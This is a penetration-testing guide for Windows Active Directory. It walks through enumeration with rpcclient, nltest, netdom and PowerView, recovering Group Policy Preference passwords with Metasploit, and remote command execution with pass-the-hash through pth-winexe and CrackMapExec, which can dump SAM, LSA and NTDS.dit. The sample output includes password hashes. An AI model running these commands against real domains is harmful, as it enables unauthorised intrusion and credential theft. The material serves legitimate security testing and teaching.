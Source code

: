 ==============================================================================
Infrastruture PenTest Series : Part 3 - Exploitation
==============================================================================

Once, we have access to **credentials of a domain user of windows domain**, we can utilize the credentials to do windows **active directory enumeration** such as figuring out the domain controllers, users, machines, trust etc. This post looks into the various methods which are available to do the enumeration such as rpclient, enum4linux, nltest, netdom, powerview, bloodhound, adexplorer, Jexplorer, Remote Server Administration Tools, Microsoft Active Diretory Topology Diagrammer etc.

Also, once we have **administrative credentials** there are multiple ways to get a **execute remote commands** on the remote machine such winexe, crackmapexec, impacket psexec, smbexec, wmiexec, Metasploit psexec, Sysinternals psexec, task scheduler, scheduled tasks, service controller (sc), remote registry, WinRM, WMI, DCOM, Mimikatz Pass the hash/ Pass the ticket, remote desktop etc. We have a look over all the methods with possible examples. 

Did we missed something? please send us a pull request and we will add it. 


Recon Active Directory:
------------------------

rpclient
^^^^^^^^^^

eskoudis presents great amount of information at `Plundering Windows Account Infor via Authenticated SMB Session <https://pen-testing.sans.org/blog/2013/07/24/plundering-windows-account-info-via-authenticated-smb-sessions>`_.  carnal0wnage have written `Enumerating user accounts on linux and OSX <http://carnal0wnage.attackresearch.com/2007/07/enumerating-user-accounts-on-linux-and.html>`_ and BlackHills have written `Password Spraying and Other Fun with RPC Client <http://www.blackhillsinfosec.com/?p=4645>`_  Most of the stuff has been taken from the above three.

* Connection:

 ::

  rpcclient -U xxxxs.hxxxx.net/mlxxxxh 10.0.65.103 

* Version of the target Windows machine:

 ::
  
  rpcclient $> srvinfo
  10.0.65.103    Wk Sv BDC Tim NT     
  platform_id     :       500
  os version      :       6.3
  server type     :       0x801033

* enum commands:

 ::

  rpcclient $> enum

  enumalsgroups  enumdomains    enumdrivers    enumkey     enumprivs
  enumdata       enumdomgroups  enumforms      enumports   enumtrust
  enumdataex     enumdomusers   enumjobs       enumprinter

* Tell the current domain 

 ::
  
  enumdomains 
  name:[xxxx] idx:[0x0]
  name:[Builtin] idx:[0x0]

* Enum Domain info

 ::

  rpcclient $> querydominfo 
  Domain               :  xxxx
  Server               :  HMC_PDC-TEMP
  Comment              :      
  Total Users          :  9043
  Total Groups         :  0
  Total Aliases        :  616
  Sequence No          :  1
  Force Logoff         : -1
  Domain Server State  :  0x1
  Server Role          :  ROLE_DOMAIN_BDC
  Unknown 3           :    0x1

* Enum Domain users:

  ::
   
   rpcclient $> enumdomusers 
   user:[administrator] rid:[0x1f4]
   user:[Guest] rid:[0x1f5]
   user:[krbtgt] rid:[0x1f6]
   user:[_STANDARD] rid:[0x3ee]
   user:[Install] rid:[0x3fa]
   user:[sko] rid:[0x43a]
   user:[cap] rid:[0x589]
   user:[zentrale] rid:[0x67f]
   user:[dbserver] rid:[0x7d9]
   user:[JVOO] rid:[0x7fa]
   user:[Standard HMC User Te] rid:[0x8a0]
   user:[event] rid:[0x8d5]
   user:[remote] rid:[0x9ea]
   user:[pda-vis1] rid:[0xb65]
   user:[TestUser] rid:[0xc46]
   user:[oeinstall] rid:[0x1133]
   user:[repro] rid:[0x13c3]

* Enum Domain groups:

 ::

   rpcclient $> enumdomgroups 
   group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
   group:[Domain Admins] rid:[0x200]
   group:[Domain Users] rid:[0x201]
   group:[Domain Guests] rid:[0x202]
   group:[Domain Computers] rid:[0x203]
   group:[Domain Controllers] rid:[0x204]
   group:[Schema Admins] rid:[0x206]
   group:[Enterprise Admins] rid:[0x207]
   group:[Group Policy Creator Owners] rid:[0x208]
   group:[Read-only Domain Controllers] rid:[0x209]
   group:[Cloneable Domain Controllers] rid:[0x20a]
   group:[Protected Users] rid:[0x20d]
   group:[xxxx Users] rid:[0x4d8]
   group:[IC Members] rid:[0x50d]
   group:[Event Management] rid:[0x8d7]
   group:[SMSInternalCliGrp] rid:[0x9f5]
   group:[IT Support] rid:[0x105b]


* Enum Group Information and Group Membership

 ::

  rpcclient $> querygroup 0x200
  Group Name:     Domain Admins
  Description:    Designated administrators of the domain
  Group Attribute:7
  Num Members:16


 ::

  rpcclient $> querygroupmem 0x200
  rid:[0x2227] attr:[0x7]
  rid:[0x3601] attr:[0x7]
  rid:[0x36aa] attr:[0x7]
  rid:[0x36e0] attr:[0x7]
  rid:[0x3c23] attr:[0x7]
  rid:[0x5528] attr:[0x7]
  rid:[0x1f4]  attr:[0x7]
  rid:[0x363b] attr:[0x7]
  rid:[0x573e] attr:[0x7]
  rid:[0x56bc] attr:[0x7]
  rid:[0x5e5e] attr:[0x7]
  rid:[0x7fe1] attr:[0x7]
  rid:[0x86d9] attr:[0x7]
  rid:[0x9367] attr:[0x7]
  rid:[0x829c] attr:[0x7]
  rid:[0xa26e] attr:[0x7]

* Enumerate specfic User/ computer information by RID

 ::

  rpcclient $> queryuser 0x3601
  User Name   :   dummy_s
  Full Name   :   Dummy User
  Home Drive  :   
  Dir Drive   :   
  Profile Path:   
  Logon Script:   
  Description :   E 5.5.2008 Admin
  Workstations:   
  Comment     :   
  Logon Time               :      Tue, 24 Jan 2017 19:28:14 IST
  Logoff Time              :      Thu, 01 Jan 1970 05:30:00 IST
  Kickoff Time             :      Thu, 14 Sep 30828 08:18:05 IST
  Password last set Time   :      Fri, 21 Nov 2008 02:34:34 IST
  Password can change Time :      Fri, 21 Nov 2008 02:34:34 IST
  Password must change Time:      Thu, 14 Sep 30828 08:18:05 IST

* Get Domain Password Policy

 ::

  rpcclient $> getdompwinfo 
  min_password_length: 8
  password_properties: 0x00000000

* Get user password policies

 ::

  rpcclient $> getusrdompwinfo 0x3601
  min_password_length: 8
  &info.password_properties: 0x433e6584 (1128162692)
  0: DOMAIN_PASSWORD_COMPLEX  
  0: DOMAIN_PASSWORD_NO_ANON_CHANGE
  1: DOMAIN_PASSWORD_NO_CLEAR_CHANGE
  0: DOMAIN_PASSWORD_LOCKOUT_ADMINS
  0: DOMAIN_PASSWORD_STORE_CLEARTEXT
  0: DOMAIN_REFUSE_PASSWORD_CHANGE

Enum4linux
^^^^^^^^^^^

Simple wrapper around the tools in the samba package to provide similar functionality to enum.exe (formerly from www.bindview.com).

::

 Usage: ./enum4linux.pl [options] ip

 Options are (like "enum"):
     -U        get userlist
     -M        get machine list*
     -S        get sharelist
     -P        get password policy information
     -G        get group and member list
     -d        be detailed, applies to -U and -S
     -u user   specify username to use (default "")  
     -p pass   specify password to use (default "")   


 Additional options:
    -a        Do all simple enumeration (-U -S -G -P -r -o -n -i).
              This opion is enabled if you don't provide any other options.
    -h        Display this help message and exit
    -r        enumerate users via RID cycling
    -R range  RID ranges to enumerate (default: 500-550,1000-1050, implies -r)
    -K n      Keep searching RIDs until n consective RIDs don't correspond to
              a username.  Impies RID range ends at 999999. Useful 
	      against DCs.
    -l        Get some (limited) info via LDAP 389/TCP (for DCs only)
    -s file   brute force guessing for share names
    -k user   User(s) that exists on remote system (default: administrator,guest,krbtgt,domain admins,root,bin,none)
              Used to get sid with "lookupsid known_username"
    	      Use commas to try several users: "-k admin,user1,user2"
    -o        Get OS information
    -i        Get printer information
    -w wrkg   Specify workgroup manually (usually found automatically)
    -n        Do an nmblookup (similar to nbtstat)
    -v        Verbose.  Shows full commands being run (net, rpcclient, etc.)

Example: 

::

 enum4linux -P -d xxxx.abcxxx.net -u mluxxxx -p threxxxx 10.0.65.103

Active Directory Explorer ADExplorer
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

As per the technet article `Active Directory Explorer (AD Explorer) <https://technet.microsoft.com/en-us/sysinternals/adexplorer.aspx>`_ is an advanced Active Directory (AD) viewer and editor. We can use AD Explorer to easily navigate an AD database, define favorite locations, view object properties and attributes without having to open dialog boxes, edit permissions, view an object's schema, and execute sophisticated searches that you can save and re-execute. 

JXplorer
^^^^^^^^^

`JXplorer <http://jxplorer.org/>`_ is a cross platform LDAP browser and editor. It is a standards compliant general purpose LDAP client that can be used to search, read and edit any standard LDAP directory, or any directory service with an LDAP or DSML interface.

Remote Server Administration Tools 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Active Directory Domain Services (AD DS) Tools and Active Directory Lightweight Directory Services (AD LDS) Tools includes Active Directory Administrative Center; Active Directory Domains and Trusts; Active Directory Sites and Services; Active Directory Users and Computers; ADSI Edit; DCPromo.exe; LDP.exe; NetDom.exe; NTDSUtil.exe; RepAdmin.exe; Active Directory module for Windows PowerShell; DCDiag.exe; DSACLs.exe; DSAdd.exe; DSDBUtil.exe; DSMgmt.exe; DSMod.exe; DSMove.exe; DSQuery.exe; DSRm.exe; GPFixup.exe; KSetup.exe; KtPass.exe; NlTest.exe; NSLookup.exe; W32tm.exe.

Active Directory Administrative Center; Active Directory Domains and Trusts; Active Directory Sites and Services; Active Directory Users and Computers; ADSI Edit;  are GUI tools. These can be installed by installing `Remote Server Administration Tools <https://support.microsoft.com/en-in/help/2693643/remote-server-administration-tools-rsat-for-windows-operating-systems>`_ 

Microsoft Active Directory Topology Diagrammer
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The `Microsoft Active Directory Topology Diagrammer <https://www.microsoft.com/en-in/download/details.aspx?id=13380>`_ reads an Active Directory configuration using LDAP, and then automatically generates a Visio diagram of your Active Directory and /or your Exchange Server topology. The diagramms may include domains, sites, servers, organizational units, DFS-R, administrative groups, routing groups and connectors and can be changed manually in Visio if needed.

nltest
^^^^^^^

`Nltest <https://technet.microsoft.com/en-us/library/cc731935(v=ws.11).aspx>`_ is a command-line tool to perform network administrative tasks. We could figure out the Domain Controllers/ Domain Trusts using it. It is built into Windows Server 2008 and Windows Server 2008 R2. It is available if you have the AD DS or the AD LDS server role installed. It is also available if you install the Active Directory Domain Services Tools that are part of the Remote Server Administration Tools (RSAT).

::

 nltest /?
 Usage: nltest [/OPTIONS]


    /SERVER:<ServerName> - Specify <ServerName>

    /QUERY - Query <ServerName> netlogon service
    /DCLIST:<DomainName> - Get list of DC's for <DomainName>
    /DCNAME:<DomainName> - Get the PDC name for <DomainName>
    /DSGETDC:<DomainName> - Call DsGetDcName /PDC /DS /DSP /GC /KDC /TIMESERV /GTIMESERV /WS /NETBIOS /DNS /IP /FORCE /WRITABLE /AVOIDSELF /LDAPONLY /BACKG /DS_6
        /TRY_NEXT_CLOSEST_SITE /SITE:<SiteName> /ACCOUNT:<AccountName> /RET_DNS /RET_NETBIOS
    /DNSGETDC:<DomainName> - Call DsGetDcOpen/Next/Close /PDC /GC /KDC /WRITABLE /LDAPONLY /FORCE /SITESPEC
    /DSGETFTI:<DomainName> - Call DsGetForestTrustInformation /UPDATE_TDO
    /DSGETSITE - Call DsGetSiteName
    /DSGETSITECOV - Call DsGetDcSiteCoverage
    /DSADDRESSTOSITE:[MachineName] - Call DsAddressToSiteNamesEx        /ADDRESSES:<Address1,Address2,...>
    /PARENTDOMAIN - Get the name of the parent domain of this machine
    /WHOWILL:<Domain>* <User> [<Iteration>] - See if <Domain> will log on <User>
    /FINDUSER:<User> - See which trusted domain will log on <User>
    /USER:<UserName> - Query User info on <ServerName>
    /TIME:<Hex LSL> <Hex MSL> - Convert NT GMT time to ascii
    /LOGON_QUERY - Query number of cumulative logon attempts
    /DOMAIN_TRUSTS - Query domain trusts on <ServerName>
        /PRIMARY /FOREST /DIRECT_OUT /DIRECT_IN /ALL_TRUSTS /V

Examples:

* Verify domain controllers in a domain

 ::
 
  nltest /dclist:xxx.example.net
  Get list of DCs in domain 'xxx.example.net' from '\\ABCDEFG.xxx.example.net'.
        ABCDEFG1.xxx.example.net        [DS] Site: XX-SriLanka
        ABCDEFG2.xxx.example.net        [DS] Site: XX-India
        ABCDEFG5.xxx.example.net [PDC]  [DS] Site: XX-Bangladesh
  The command completed successfully

* Advanced information about users

 ::

  nltest /user:"TestAdmin"
  User: User1
  Rid: 0x3eb
  Version: 0x10002
  LastLogon: 2ee61c9a 01c0e947 = 5/30/2001 13:29:10
  PasswordLastSet: 9dad5428 01c0e577 = 5/25/2001 17:05:47
  AccountExpires: ffffffff 7fffffff = 9/13/30828 19:48:05
  PrimaryGroupId: 0x201
  UserAccountControl: 0x210
  CountryCode: 0x0
  CodePage: 0x0
  BadPasswordCount: 0x0
  LogonCount: 0x33
  AdminCount: 0x1
  SecurityDescriptor: 80140001 0000009c 000000ac 00000014 00000044 00300002 000000
  02 0014c002 01050045 00000101 01000000 00000000 0014c002 000f07ff 00000101 05000
  000 00000007 00580012 00000003 00240000 00020044 00000501 05000000 00000015 22cd
  b7b4 7112b3f1 2b3be507 000003eb 00180000 000f07ff 00000201 05000000 00000020 000
  00220 00140000 0002035b 00000101 01000000 00000000 00000201 05000000 00000020 00
  000220 00000201 05000000 00000020 00000220
   AccountName: User1
  Groups: 00000201 00000007
  LmOwfPassword: fb890c9c 5c7e7e09 ee58593b d959c681
  NtOwfPassword: d82759cc 81a342ac df600c37 4e58a478
  NtPasswordHistory: 00011001
  LmPasswordHistory: 00010011
  The command completed successfully

* Determine the PDC emulator for a domain

 ::

  nltest /dcname:fourthcoffee
  PDC for Domain fourthcoffee is \\fourthcoffee-dc-01
  The command completed successfully

*  Show trust relationships for a domain

 Returns a list of trusted domains. /Primary /Forest /Direct_Out /Direct_In /All_Trusts /v.

 The following list shows the values that you can use to filter the list of domains.

 * /Primary: Returns only the domain to which the computer account belongs.

 * /Forest: Returns only those domains that are in the same forest as the primary domain.

 * /Direct_Out: Returns only the domains that are explicitly trusted with the primary domain.

 * /Direct_In: Returns only the domains that explicitly trust the primary domain.

 * /All_Trusts: Returns all trusted domains.

 * /v: Displays verbose output, including any domain SIDs and GUIDs that are available.

 ::

  nltest /domain_trusts 
 
  List of domain trusts:
     0: ABC abc.example.net (NT 5) (Forest: 17) (Direct Outbound) (Direct Inbound)
     1: DEF def.example.net (NT 5) (Forest: 17) (Direct Outbound) (Direct Inbound)
     2: IJK IJK.NET (NT 5) (Direct Inbound) ( Attr: 0x8 )
     3: LMN LMH.net (NT 5) (Direct Outbound) ( Attr: 0x18 )
     4: APP app.example.net (NT 5) (Forest: 17) (Direct Outbound) (Direct Inbound) ( Attr: 0x20 )

Thanks to `Tanoy Bose <https://twitter.com/tanoybose>`_ for informing me about this. Cheers Bose.

netdom
^^^^^^^
netdom: netdom is a command-line tool that is built into Windows Server 2008 and Windows Server 2008 R2. It is available if you have the Active Directory Domain Services (AD DS) server role installed. It is also available if you install the Active Directory Domain Services Tools that are part of the Remote Server Administration Tools (RSAT). More information available at `Netdom query <https://technet.microsoft.com/en-us/library/cc835089(v=ws.11).aspx>`_. 

::

  netdom query {/d: | /domain:}<Domain> [{/s: | /server:}<Server>] [{/ud: | /userd:}[<Domain>\]<User> {/pd: | /passwordd}{<Password>|*}] [/verify] [/reset] [/direct] {WORKSTATION|SERVER|DC|OU|PDC|FSMO|TRUST} [{/help | /?}]

  Specifies the type of list to generate. The following list shows the possible objects:
  WORKSTATION: Queries the domain for the list of workstations.
  SERVER: Queries the domain for the list of servers.
  DC   : Queries the domain for the list of domain controllers.
  OU   : Queries the domain for the list of OUs under which the user that you specify can create a computer object.
  PDC  : Queries the domain for the current primary domain controller.
  FSMO : Queries the domain for the current list of operations master role holders. These role holders are also known as flexible single master operations (FSMO).
  TRUST: Queries the domain for the list of its trusts.

* DC: Queries the domain for the list of workstations:

 :: 

  PS C:\> netdom query /domain example.net DC
  List of domain controllers with accounts in the domain:
  
  xxxxDC12
  xxxxDC11
  xxxxDC04
  xxxxDC03
  The command completed successfully.

* PDC: Queries the domain for the current primary domain controller

 ::
 
  PS C:\> netdom query /domain example.net PDC
  Primary domain controller for the domain:
  
  xxxxDC03.example.net
  The command completed successfully.

* FSMO: Queries the domain for the current list of operations master role holders.  

 ::

  PS C:\> netdom query /domain example.net FSMO
  Schema master               xxxxDC03.example.net
  Domain naming master        xxxxDC03.example.net
  PDC                         xxxxDC03.example.net
  RID pool manager            xxxxDC03.example.net
  Infrastructure master       xxxxDC03.example.net
  The command completed successfully. 

* TRUST: Queries the domain for the list of its trusts

 ::

  PS C:\> netdom query /domain example.net TRUST
  Direction Trusted\Trusting domain      Trust type
  ========= =======================      ==========   
  
  <->       xxxx.xxxxxx.net              Direct
  <->       xxxx.example.net             Direct
  <->       XX.XXXxXX.NET                Direct

* OU: Queries the domain for the list of OUs under which the user that you specify can create a computer object.

 ::

  PS C:\> netdom query /domain abc.example.net OU
  List of Organizational Units within which the specified user can create a
  machine account:
  
  OU=Domain Controllers,DC=abc,DC=example,DC=net
  OU=ABC-Admin,DC=abc,DC=example,DC=net
  OU=ServiceAccounts,OU=ABC-Admin,DC=abc,DC=example,DC=net
  OU=Users,OU=ABC-Admin,DC=abc,DC=example,DC=net
  OU=Groups,OU=ABC-Admin,DC=abc,DC=example,DC=net
  OU=Service Accounts,DC=abc,DC=example,DC=net
  OU=Servers,OU=ABC-Admin,DC=abc,DC=example,DC=net
  DC=abc,DC=example,DC=net
  The command completed successfully.

* SERVER/ WORKSTATION: Queries the domain for the list of servers/ workstations

 ::   

  PS C:\> netdom query /domain abc.example.net WORKSTATION
  List of workstations with accounts in the domain:

  ABCDC02      ( Workstation or Server )
  ABCDC01      ( Workstation or Server )
  ABCDC03      ( Workstation or Server )
  ABCDC04      ( Workstation or Server )
  BSKMACDB62   ( Workstation or Server )

  The command completed successfully.

  PS C:\>


Get sessions of remote machines
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* Powerview Get-NetSession

* net session

 * Net session of current computer

  ::

   net session

   Computer               User name            Client Type       Opens Idle time

   -------------------------------------------------------------------------------
   \\127.0.0.1            Administrat0r                              1 05D 22H 02M

   The command completed successfully.

 * Net session of remote computer
 
  :: 

   net session \\computername

* Wmi: We can use wmi to get the remote logged on users. However, I believe to run wmi on remote machine, you need to be administrator of that machine.

 ::

  wmic:root\cli> /node:"computername" path win32_loggeduser get antecedent
  
  \\.\root\cimv2:Win32_Account.Domain="ABCROOT",Name="axx.xxxxx"
  \\.\root\cimv2:Win32_Account.Domain="ABCROOT",Name="srv.xxxxx"
  \\.\root\cimv2:Win32_Account.Domain="ABCROOT",Name="axx.xxxxx"
  \\.\root\cimv2:Win32_Account.Domain="MA",Name="axxd.xxxxx"
  \\.\root\cimv2:Win32_Account.Domain="DC",Name="ANONYMOUS LOGON"



View users in Domain / Workgroup
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
* Powerview Get-NetUser

* net user /domain

* wmi

 Domain users:

 :: 

  wmic useraccount list /format:list 


View machines in Domain/ Workgroup
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* Powerview Get-NetComputers

* net view /domain ? -- check the functionality

* View machines affected by GPP vulnerability

 When we run Get-GPPPassword, we get output like

 ::

  Password: password@123
  Changed : 2013-07-02 01:01:23
  Username: Administrator
  NewName : 
  File    : \\Demo.lab\sysvol\demo.lab\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\DataSources\{DataSouces| Groups| ScheduledTasks.xml

 To get the computers using the passwords set by the GPP, we can use

 ::

  Get-NetOU -GUID "{31B2F340-016D-11D2-945F-00C04FB984F9}" | %{ Get-NetComputer -ADSPath $_ }

 Get-NetSite function, which returns the current sites for a domain, also accepts the -GUID filtering flag. This information has been taken from harmj0y blog `gpp and powerview <http://www.harmj0y.net/blog/powershell/gpp-and-powerview/>`_ 

 More information about GPP should be read from Sean Metcalf blog `Using Group Policy Preferences for Password Management = Bad Idea <https://adsecurity.org/?p=384>`_ and `Finding Passwords in SYSVOL & Exploiting Group Policy Preferences <https://adsecurity.org/?p=2288>`_ 

 There are various methods to figure out the GPP Password if it's set.

 * `Get-GPPPassword.ps1 <https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1>`_ :  PowerShell script that can identify and extract the password(s) stored in Group Policy Preferences using the MSDN AES key. 

 * If you have a domain user credentials we can use metasploit auxilary module - SMB Group Policy Preference Saved Passwords Enumeration : This module enumerates files from target domain controllers and connects to them via SMB. It then looks for Group Policy Preference XML files containing local/domain user accounts and passwords and decrypts them using Microsofts public AES key. This module has been tested successfully on a Win2k8 R2 Domain Controller.

  ::

   use auxiliary/scanner/smb/smb_enum_gpp
   set smbdomain example.com
   set smbuser user
   set smbpass pass
   set rhosts 192.168.56.2


  Thanks to Tanoy Bose for informing about this!. Previously, we used to manually search the SYSVOL location! ( When for some reason Get-GPPPassword doesn't work! )

 * If you have a meterpreter session, we can use metasploit post module - Windows Gather Group Policy Preference Saved Passwords : This module enumerates the victim machine's domain controller and connects to it via SMB. It then looks for Group Policy Preference XML files containing local user accounts and passwords and decrypts them using Microsofts public AES key. Cached Group Policy files may be found on end-user devices if the group policy object is deleted rather than unlinked. 

  :: 

   use post/windows/gather/credentials/gpp
   set session <Session_Number>

 * Reading Group Policies manually stored here: \\\<DOMAIN>\\SYSVOL\\<DOMAIN>\\Policies\\

View group in Domain / Workgroup
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* Powerview Get-NetGroupMember

* Net group / domain? options

* Windows Resource Kit Local/ Global executable

 * Global.exe 

  ::

   PS C:\> .\global.exe

   Displays members of global groups on remote servers or domains.

   GLOBAL group_name domain_name | \\server

   group_name    The name of the global group to list the members of.
   domain_name   The name of a network domain.
   \\server      The name of a network server.

   Examples:
   Global "Domain Users" EastCoast
   Displays the members of the group 'Domain Users' in the EastCoast domain.

   Global PrintUsers \\BLACKCAT
   Displays the members of the group PrintUsers on server BLACKCAT.

   Notes:
   Names that include space characters must be enclosed in double quotes.
   To list members of local groups use Local.Exe.
   To get the Server name for a give Domain use GetDC.Exe.

  Example:

  ::

   PS C:\> .\global.exe "Domain Admins" \\domainname
   Uraxxxx
   axx.xxxxx
   axx.xxxxx2
   axx.xxxxxx3


* BloodHound Group Memberships

* wmi user groups
 
 ::

  wmic group list brief
  ABCD\SUS Administrator    ABCD          SUS Administrator                                         S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-7357
  ABCD\VPN Admins           ABCD          VPN Admins                                                S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-8728
  ABCD\VPN Users            ABCD          VPN Users                                                 S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-9229
  ABCD\XXX - OER Users      ABCD          XXX - OER Users                                           S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-5095


Hunting for a particular User?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* Powerview Invoke-UserHunter

* BH users_sessions

* EventLog AD? How? Not yet successful!

* Finding which machine belong to which user? Any other way than above?

* Machine belongs to which user AD Properties -- GETADObject (Tanoy)


Remote Code Execution Methods:
------------------------------

A lot of details for Remote Code execution has already been mentioned by Rop Nop in his three parts `Part 1: Using credentials to own windows boxes <https://blog.ropnop.com/using-credentials-to-own-windows-boxes/>`_ , `Part2: PSExec and Services <https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/>`_ and `Part: 3 Wmi and WinRM <https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/>`_ and by scriptjunkie in his blog `Authenticated Remote Code Execution Methods in Windows <https://www.scriptjunkie.us/2013/02/authenticated-remote-code-execution-methods-in-windows/>`_ 

We have just summarized all in one page with *working* examples whereever possible.

Winexe
^^^^^^

* Linux Binary pth-winexe

 ::

  winexe version 1.1
  Usage: winexe [OPTION]... //HOST COMMAND
  Options:
   -h, --help                                  Display help message
   -V, --version                               Display version number
   -U, --user=[DOMAIN/]USERNAME[%PASSWORD]     Set the network username
   -A, --authentication-file=FILE              Get the credentials from a file
   -N, --no-pass                               Do not ask for a password
   -k, --kerberos=STRING                       Use Kerberos, -k [yes|no]
   -d, --debuglevel=DEBUGLEVEL                 Set debug level
       --uninstall                             Uninstall winexe service after remote execution
       --reinstall                             Reinstall winexe service before remote execution
       --system                                Use SYSTEM account
       --profile                               Load user profile
       --convert                               Try to convert characters between local and remote code-pages
       --runas=[DOMAIN\]USERNAME%PASSWORD      Run as the given user (BEWARE: this password is sent in cleartext over the network!)
       --runas-file=FILE                       Run as user options defined in a file
       --interactive=0|1                       Desktop interaction: 0 - disallow, 1 - allow. If allow, also use the --system switch (Windows requirement). Vista does not support this option.
       --ostype=0|1|2                          OS type: 0 - 32-bit, 1 - 64-bit, 2 - winexe will decide. Determines which version (32-bit or 64-bit) of service will be installed.
  
 Example with pth:
 ::

  pth-winexe -U ./Administrator%aad3b435b51404eeaad3b435b51404ee:4b579a266f697c2xxxxxxxxx //10.145.X.X cmd.exe
  pth-winexe -U EXAMPLE/Administrator%example@123 //10.145.X.X cmd.exe

* Windows Binary win-exe

 win-exe can be downloaded from `winexe <https://sourceforge.net/projects/winexe/>`_ 

 commands and usage is same as linux binary pth-winexe. However, it needed to be compiled from the source.

crackmapexec
^^^^^^^^^^^^
`CrackMapExec <https://github.com/byt3bl33d3r/CrackMapExec>`_ is quite awesome tool when it comes to remote command execution. Read the `wiki <https://github.com/byt3bl33d3r/CrackMapExec/wiki>`_ 

::

  positional arguments:
  target                The target IP(s), range(s), CIDR(s), hostname(s), FQDN(s) or file(s) containg a list of targets

  optional arguments:
    -h, --help            show this help message and exit
    -v, --version         show program's version number and exit
    -t THREADS            Set how many concurrent threads to use (default: 100)
    -u USERNAME [USERNAME ...]  Username(s) or file(s) containing usernames
    -d DOMAIN             Domain name
    --local-auth          Authenticate locally to each target
    -p PASSWORD [PASSWORD ...]  Password(s) or file(s) containing passwords
    -H HASH [HASH ...]    NTLM hash(es) or file(s) containing NTLM hashes
    -M MODULE, --module MODULE Payload module to use
    -MC CHAIN_COMMAND, --module-chain CHAIN_COMMAND  Payload module chain command string to run
    -o MODULE_OPTION [MODULE_OPTION ...] Payload module options
    -L, --list-modules    List available modules
    --show-options        Display module options
    --verbose             Enable verbose output

  Credential Gathering:
  Options for gathering credentials

  --sam                 Dump SAM hashes from target systems
  --lsa                 Dump LSA secrets from target systems
  --ntds {vss,drsuapi}  Dump the NTDS.dit from target DCs using the specifed method
                        (drsuapi is the fastest)
  --ntds-history        Dump NTDS.dit password history
  --ntds-pwdLastSet     Shows the pwdLastSet attribute for each NTDS.dit account
